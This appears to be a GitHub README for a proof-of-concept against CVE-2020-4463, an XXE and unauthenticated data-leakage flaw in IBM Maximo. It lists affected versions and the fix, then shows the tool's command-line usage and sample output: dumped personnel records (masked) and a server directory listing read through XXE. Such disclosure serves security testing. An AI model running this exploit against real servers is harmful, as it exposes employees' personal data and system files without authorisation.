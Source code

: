 # IBM Maximo Asset Management is vulnerable to Information Disclosure via XXE Vulnerability (CVE-2020-4463)

IBM Maximo Asset Management is vulnerable to an XML External Entity Injection (XXE) attack when processing XML data. A remote attacker could exploit this vulnerability to expose sensitive information or consume memory resources.

Base Score: 8.2

Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:L

### Affected Core Components
IBM Maximo Asset Management	7.6.0<br />
IBM Maximo Asset Management	7.6.1<br />
IBM Maximo Asset Management all Verisons befor 7.6.0

### Affected Products
Maximo for Aviation<br />
Maximo for Life Sciences<br />
Maximo for Nuclear Power<br />
Maximo for Oil and Gas<br />
Maximo for Transportation<br />
Maximo for Utilities<br />
SmartCloud Control Desk<br />
IBM Control Desk<br />
Tivoli Integration Composer<br />

### Patched in Version
Fixed Version: 	Maximo Asset Management 7.6.1.2<br /> 
prior Versions: See workaround (link below)

### Links:
- https://nvd.nist.gov/vuln/detail/CVE-2020-4463
- https://www.ibm.com/support/pages/node/6253953

### PoC
Here now the PoC for the vulnerability. Not only the versions mentioned by IBM are vulnerable. All versions befor version 7.6.0 can be also vulnerable.

The PoC checks 2 vulnerabilities that might be present on the system. A data leakage vulnerability that can be exploited if no authentication is implemented and the XXE vulnerability that can be exploited if a certain value (mxe.int.resolvexmlextentity=0) is not set in the configuration.

### Example

#### Usage

```
python3 CVE-2020-4463.py --help
usage: CVE-2020-4463.py [-h] [-x [XXE]] [-d [DATALEAK]] [--url [URL]]

CVE-2020-4463 PoC Data Leakage and XXE

optional arguments:
  -h, --help            show this help message and exit
  -x [XXE], --xxe [XXE]
                        XXE (Linux/Windows)
  -d [DATALEAK], --dataleak [DATALEAK]
                        Data Leakage REST request MXPERSON. May take a long
                        time.
  --url [URL]           Target URL http://, https://
```

If you get following response, both vulnerabilities are not present.

```
Error 500: BMXAA1268E - No user credentials.
```

#### Data Leakage

May take a long time if the database contains many entries.

```
CVE-2020-4463 git:(master) ✗ python3 CVE-2020-4463.py --url https://10.0.0.1 -d

<?xml version="1.0" encoding="UTF-8"?>
<QueryMXPERSONResponse xmlns="http://www.ibm.com/maximo" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    creationDateTime="2020-11-16T10:42:49+01:0 0" transLanguage="EN" baseLanguage="EN"
    messageID="6927296.160551977018422092" maximoVersion="7 6 20170418-0100 V7608-61" rsStart="0" rsTotal="4374"
    rsCount="4374">
    <MXPERSONSet>
        <PERSON>
            <ADDRESSLINE1></ADDRESSLINE1>
            <CITY></CITY>
            <CLASSSTRUCTUREID></CLASSSTRUCTUREID>
            <COUNTRY></COUNTRY>
            <C_DESCRIZIONE></C_DESCRIZIONE>
            <C_MATRICOLA></C_MATRICOLA>
            <C_QUALIFICA></C_QUALIFICA>
            <FIRSTNAME>Lxxxxxxx</FIRSTNAME>
            <LANGUAGE>IT</LANGUAGE>
            <LASTNAME>xxxxxx</LASTNAME>
            <PERSONID>Lxxxxxxx</PERSONID>
            <POSTALCODE></POSTALCODE>
            <PRIMARYEMAIL>xxxx@xxxx.xxx</PRIMARYEMAIL>
            <PRIMARYPHONE></PRIMARYPHONE>
            <STATEPROVINCE></STATEPROVINCE>
            <STATUS maxvalue="ACTIVE">ACTIVE</STATUS>
            <TITLE></TITLE>
            <USERNOTFTYPE></USERNOTFTYPE>
            <EMAIL>
                <EMAILADDRESS>xxxx@xxxx.xxx</EMAILADDRESS>
            </EMAIL>
        </PERSON>
```

#### XXE

```
CVE-2020-4463 git:(master) ✗ python3 CVE-2020-4463.py --url https://10.0.0.1 -x          

Error 500: BMXAA4160E - A major exception has occurred. Check the system log to see if there are any companion errors logged. Report this error to your system administrator.
	/c: &#40;No such file or directory&#41;
Error 500: For input string: &quot;bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost&#43;found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
&quot;
```